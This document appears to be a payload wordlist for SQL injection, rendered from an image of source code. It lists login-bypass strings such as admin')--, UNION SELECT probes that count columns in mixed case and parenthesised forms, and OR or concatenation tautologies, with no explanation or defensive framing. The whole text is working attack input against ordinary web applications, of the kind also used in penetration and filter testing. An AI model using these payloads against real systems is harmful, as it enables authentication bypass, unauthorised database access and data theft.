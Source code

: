 ```
")oR(2)LiKE(2)oR("
admin')-- 2
admin')#
admin')/*
admin")-- 2
admin")#
') UniON SElecT 1,2-- 2
') UniON SElecT 1,2,3-- 2
') UniON SElecT 1,2,3,4-- 2
') UniON SElecT 1,2,3,4,5-- 2
') UniON SElecT 1,2#
') UniON SElecT 1,2,3#
') UniON SElecT 1,2,3,4#
') UniON SElecT 1,2,3,4,5#
')UniON(SElecT(1),2)-- 2
')UniON(SElecT(1),2,3)-- 2
')UniON(SElecT(1),2,3,4)-- 2
')UniON(SElecT(1),2,3,4,5)-- 2
')UniON(SElecT(1),2)#
')UniON(SElecT(1),2,3)#
')UniON(SElecT(1),2,3,4)#
')UniON(SElecT(1),2,3,4,5)#
") UniON SElecT 1,2-- 2
") UniON SElecT 1,2,3-- 2
") UniON SElecT 1,2,3,4-- 2
") UniON SElecT 1,2,3,4,5-- 2
") UniON SElecT 1,2#
") UniON SElecT 1,2,3#
") UniON SElecT 1,2,3,4#
") UniON SElecT 1,2,3,4,5#
")UniON(SElecT(1),2)-- 2
")UniON(SElecT(1),2,3)-- 2
")UniON(SElecT(1),2,3,4)-- 2
")UniON(SElecT(1),2,3,4,5)-- 2
")UniON(SElecT(1),2)#
")UniON(SElecT(1),2,3)#
")UniON(SElecT(1),2,3,4)#
")UniON(SElecT(1),2,3,4,5)#
')||('2
')||2-- 2
')||'2'||('
')||2#
')||2/*
')||2||('
")||("2
")||2-- 2
")||"2"||("
")||2#
")||2/*
")||2||("
')||'2'=('2
')||'2'='2'||('
')||2=2-- 2
')||2=2#
')||2=2/*
')||2=2||('
")||"2"=("2
")||"2"="2"||("
")||2=2-- 2
")||2=2#
")||2=2/*
")||2=2||("
')||2=(2)LimIT(1)-- 2
```